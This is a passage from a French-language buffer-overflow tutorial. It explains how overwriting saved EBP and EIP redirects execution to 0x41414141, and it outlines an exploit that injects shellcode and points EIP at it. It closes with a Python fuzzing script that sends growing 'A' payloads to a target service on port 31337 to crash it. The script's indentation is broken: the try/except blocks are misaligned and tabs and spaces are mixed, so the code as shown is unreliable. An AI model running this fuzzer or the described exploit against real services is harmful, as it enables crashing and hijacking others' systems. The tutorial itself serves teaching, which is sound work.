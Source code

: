 Il y a donc eu débordement sur la zone suivante, à savoir EBP (4 octets sur du 32 bits) puis EIP, qui contient l’adresse de l’instruction à laquelle le programme "sautera" (JMP) une fois la fonction terminée.

Autrement dit, une fois notre fonction terminée, notre programme saute à l’adresse indiquée par la sauvegarde d’EIP, or celle-ci a été écrasée par notre débordement mais ça, le programme s’en fiche totalement. Il saute donc à l’adresse 0x41414141 et tente d’y exécuter ce qu’il y trouve, du moins si il peut y avoir accès car un programme n’a pas accès à toute la mémoire et si il tente d’accéder à un emplacement qui ne lui est pas accessible, c’est le plantage immédiat du programme. Et c’est exactement ce qui se passe ici. Voilà la raison du plantage du programme.

**Petite remarque** : les adresses sont souvent représentées en hexadécimal et avec le préfixe « 0x » afin de préciser qu’il s’agit d’une notation hexadécimal. AAAA donnerait 41414141 et avec le préfixe, cela donnerait 0x41414141. (41 en base16 donne 65 en base 10 qui correspond au caractère A dans la [table ASCII](http://www.asciitable.com/) )

**Autre remarque** : Elle sont stockées avec l'orientation Little-Endian, et donc se lisent de la droite vers la gauche.

Le programme plante soit parce qu’il ne peut pas accéder à la zone mémoire, soit parce que ce qu’il y trouve est incompréhensible. 

L’idée pour exploiter notre programme est la suivante : injecter notre shellcode dans le buffer qu'on controle, trouver son adresse en mémoire et remplacer EIP (grâce au débordement) par cette adresse. Au retour de la fonction, c’est notre shellcode qui sera exécuté et non la suite « normale du programme ».

```py
#!/usr/bin/python
import sys,socket
import time 

address = '<target IP>'
port = 31337
buffer = ['A']
counter = 100

while len(buffer) < 10:
    buffer.append('A'*counter)
	counter=counter+100    
	try:        
		for string in buffer:            
			print '[+] Sending %s bytes...' % len(string)            
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)            
			connect=s.connect((address,port))            
			s.send(string + '\r\n')            
			s.recv(1024)            
			print '[+] Done'    
		except:        
			print '[!] Unable to connect to the application. You may have crashed it.'        
			sys.exit(0)    
		finally:        
			s.close()
```
